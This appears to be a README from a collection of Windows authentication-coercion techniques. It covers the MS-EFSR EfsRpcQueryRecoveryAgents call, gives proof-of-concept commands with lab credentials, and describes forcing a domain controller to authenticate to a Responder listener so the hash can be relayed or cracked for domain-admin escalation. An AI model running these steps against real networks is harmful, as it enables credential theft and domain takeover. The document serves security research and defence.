


# MS-EFSR - Remote call to EfsRpcQueryRecoveryAgents (opnum 7)

## Summary

 - **Protocol**: [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31)

 - **Protocol UUID**: c681d488-d850-11d0-8c52-00c04fd90f7e

 - **Protocol version**: 1.0

 - **Function name**: [`EfsRpcQueryRecoveryAgents`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/cf759c00-1b90-4c33-9ace-f51c20149cea)

 - **Function operation number**: `7`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine.

Then we need to connect to the remote SMB pipe `\PIPE\lsarpc` and bind to (uuid `c681d488-d850-11d0-8c52-00c04fd90f7e`, version `1.0`) in order to perform calls to RPC functions of the `MS-EFSR` protocol.

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Password123!" 192.168.2.51 192.168.2.1
```

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\lsarpc`. This pipe is connected to the protocol [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) and allows to call RPC functions of this protocol. It will then call the remote [`EfsRpcQueryRecoveryAgents`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/cf759c00-1b90-4c33-9ace-f51c20149cea) function on the Windows Server (192.168.2.1) with the following parameters:

```cpp
EfsRpcQueryRecoveryAgents('192.168.2.51\x00', 'test\x00', 1)
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```



This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\NETLOGON` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:



After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!

---

## Function technical detail

```cpp
DWORD EfsRpcQueryRecoveryAgents(
    [in] handle_t binding_h,
    [in, string] wchar_t* FileName,
    [out] ENCRYPTION_CERTIFICATE_HASH_LIST** RecoveryAgents
);
```

 - **binding_h**: This is an RPC  binding handle parameter, as specified in [C706] and [MS-RPCE] section 2.

 - **FileName**: An EFSRPC identifier as specified in section 2.2.1.

 - **RecoveryAgents**: A list of certificate hashes, represented by an ENCRYPTION_CERTIFICATE_HASH_LIST structure.

## References

 - Documentation of protocol [MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31

 - Documentation of function `EfsRpcQueryRecoveryAgents`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/cf759c00-1b90-4c33-9ace-f51c20149cea